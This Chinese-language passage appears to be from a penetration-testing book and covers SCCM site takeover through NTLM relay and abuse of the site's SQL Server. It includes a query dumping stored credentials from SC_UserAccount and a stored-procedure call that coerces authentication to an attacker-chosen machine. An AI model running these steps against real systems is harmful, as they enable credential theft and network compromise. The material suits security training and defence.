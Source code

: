 该技术在 *Mayyhem* 的博文 *SCCM 站点通过自动客户端推送安装接管* 中有很好的描述：[`posts.specterops.io/sccm-site-takeover-via-automatic-client-push-installation-f567ec80d5b1`](https://posts.specterops.io/sccm-site-takeover-via-automatic-client-push-installation-f567ec80d5b1)。

第二种技术利用 **AdminService** API 来接管 SCCM 站点。该 API 由 SMS 提供程序托管。每个提供程序都有一个本地组，名为 **SMS Admins**。默认情况下，主站点服务器计算机账户是该组的成员。现在，接管攻击将与之前的攻击相同。通过任何你喜欢的方式强制认证，捕获并将主站点计算机账户的 NTLM 响应中继到托管在 SMS 提供程序上的 **AdminService** API，并将一个用户添加为 **完全管理员**。

注意

*Garrett Foster* 的原始研究可以在这里找到：[`posts.specterops.io/site-takeover-via-sccms-adminservice-api-d932e22b2bf`](https://posts.specterops.io/site-takeover-via-sccms-adminservice-api-d932e22b2bf)。

这两种技术在默认安装后均可工作，仅需要网络连接和标准用户凭据。

## 滥用 Microsoft SQL Server

在站点接管后，或者如果攻击者获得了主站点使用的 Microsoft SQL Server 的访问权限，将会打开新的途径。首先，可以解密存储在**SC_UserAccount**表中的 SCCM 用户凭据。在我们的案例中，我将使用 SQL Server Management Studio 运行查询。查询如下所示：

```
USE CM_WIN
SELECT UserName,Password FROM SC_UserAccount
```

然后，我将使用**SCCMDecryptPoc**[16]工具，由*XPN*开发。解密结果如下所示：

![图 10.12 – sccm_cli_push 帐户的解密密码](img/B18964_10_12.jpg)

图 10.12 – sccm_cli_push 帐户的解密密码

另一个信息收集活动是转储与任务序列相关的表格，并查找凭据。输出将被混淆，但**SharpSCCM**库中由*Mayyhem*开发的**DeObfuscateSecretString**工具将能够提供帮助。

最后，有一个名为**sp_CP_GenerateCCRByName**的存储过程，可以用来强制客户端推送安装，并使 MP 机器帐户对我们选择的机器上的**ADMIN$**共享进行身份验证。代码如下：

```
USE CM_WIN
GO
DECLARE @return_value int
EXEC    @return_value = [dbo].[sp_CP_GenerateCCRByName]
        @MachineNameList = N'192.168.56.106',
        @SiteCode = N'WIN',
        @bForced = false,
        @bForceReinstall = false
SELECT 'Return Value' = @return_value
GO
```
